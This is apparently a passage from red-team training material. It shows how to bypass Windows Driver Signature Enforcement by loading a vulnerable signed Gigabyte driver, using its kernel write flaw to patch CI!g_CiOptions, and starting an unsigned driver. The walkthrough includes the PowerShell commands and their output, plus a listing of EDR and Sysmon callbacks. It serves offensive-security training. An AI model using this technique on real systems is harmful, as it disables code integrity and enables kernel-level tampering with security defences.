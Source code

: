 Loading your own driver can be tricky due to Driver Signature Enforcement (DSE) - a protection that blocks a kernel driver from loading if it's not signed by a trusted authority.  The "legitimate" way to do this is to enable [Test Signing](https://docs.microsoft.com/en-us/windows-hardware/drivers/install/the-testsigning-boot-configuration-option) but there are some significant downsides.

1.  A "Test Mode" watermark is displayed on the desktop.
2.  A reboot is required for changes to take effect.

  

This is the case on the Attacker Windows VM but not on WKSTN-1.

We can see that `evil.sys` does not have a valid signature (it's test signed with the Windows Driver Kit).  We can create a service but not start it.

```powershell
PS C:\> hostname; whoami
wkstn-1
rto2\cbridges

PS C:\> Get-AuthenticodeSignature -FilePath C:\evil.sys

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
511197FFE44D79226828B9404B1878110D317515  UnknownError                           evil.sys

PS C:\> sc.exe create evilDriver type= kernel binPath= C:\evil.sys
[SC] CreateService SUCCESS

PS C:\> sc.exe start evilDriver
[SC] StartService FAILED 577:

Windows cannot verify the digital signature for this file. A recent hardware or software change might have installed a file that is signed incorrectly or damaged, or that might be malicious software from an unknown source.
```  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/kernel/evil-sig.png)

  

On the other hand - `gdrv.sys` is a legitimate driver signed by Gigabyte in 2017 which we can load.

```powershell
PS C:\> Get-AuthenticodeSignature -FilePath C:\gdrv.sys

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
E31B1CE555B78944D20F160DF3BE831F1C638AE3  Valid                                  gdrv.sys

PS C:\> sc.exe create gigabyte type= kernel binPath= C:\gdrv.sys
[SC] CreateService SUCCESS

PS C:\> sc.exe start gigabyte

SERVICE_NAME: gigabyte
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :
```  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/kernel/gdrv-sig.png)

This driver has two vulnerabilities (CVE-2018-19320 & CVE-2018-19321) which provide arbitrary memory read/write from userland.  During runtime, the driver enforcement policy is located in memory at **CI!g_CiOptions** (where CI is the "Code Integrity Module" DLL, `C:\Windows\System32\ci.dll`).

When a service start request is submitted, this policy value is checked and the driver will be allowed to start (or not).  With an arbitrary write primitive in kernel memory, we can "simply" overwrite the policy value.  This is nicely wrapped up in `gClie.exe`.  Use `-l` to show the relevant addresses.

There's no export for `g_CiOptions`, so the address is calculated based on an offset from `CiInitialize`.

```powershell
PS C:\> .\gCli.exe -l
FFFFF80772D20000 (CI.dll)
FFFFF80772D5D140 (Ci!CiInitialize)
FFFFF80772D5C004 (CI!g_CiOptions)
``` 

Use `-d` to disable driver signing, start the evil driver, and then re-enable driver signing with `-e`.

```powershell
PS C:\> .\gCli.exe -d
[+] Driver Signing has been DISABLED!

PS C:\> sc.exe start evilDriver

SERVICE_NAME: evilDriver
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :

PS C:\> .\gCli.exe -e
[+] Driver Signing has been ENABLED!

PS C:\> .\evilCli.exe -l
[*] Process Callbacks
[00] 0xfffff80772e16540 (cng.sys + 0x6540)
[01] 0xfffff807735b8650 (xen.sys + 0x8650)
[02] 0xfffff80773a95d60 (WdFilter.sys + 0x45d60)
[03] 0xfffff80772c5b4b0 (ksecdd.sys + 0x1b4b0)
[04] 0xfffff80773e7b550 (tcpip.sys + 0x4b550)
[05] 0xfffff807742b88e0 (SysmonDrv.sys + 0x88e0)
[06] 0xfffff80772d97820 (CI.dll + 0x77820)
[07] 0xfffff8077473d1c0 (dxgkrnl.sys + 0xd1c0)
[08] 0xfffff807758eacf0 (peauth.sys + 0x3acf0)
[*] Thread Callbacks
[00] 0xfffff80773a974a0 (WdFilter.sys + 0x474a0)
[01] 0xfffff80773a97200 (WdFilter.sys + 0x47200)
[02] 0xfffff807742b80d0 (SysmonDrv.sys + 0x80d0)
[03] 0xfffff80775c81010 (mmcss.sys + 0x1010)
[*] LoadImage Callbacks
[00] 0xfffff807735b8120 (xen.sys + 0x8120)
[01] 0xfffff807735f3240 (EC2WinUtilDriver.sys + 0x3240)
[02] 0xfffff80773a96710 (WdFilter.sys + 0x46710)
[03] 0xfffff807742bdc10 (SysmonDrv.sys + 0xdc10)
[04] 0xfffff80774e1e940 (ahcache.sys + 0x1e940)
```

	The kernel will bug check the in-memory value against the boot policy.  If it sees a difference, the machine will BSOD.  If you patch the policy value, restore it ASAP.

You can dive deeper into drivers by taking our [Offensive Driver Development](https://training.zeropointsecurity.co.uk/courses/offensive-driver-development) course.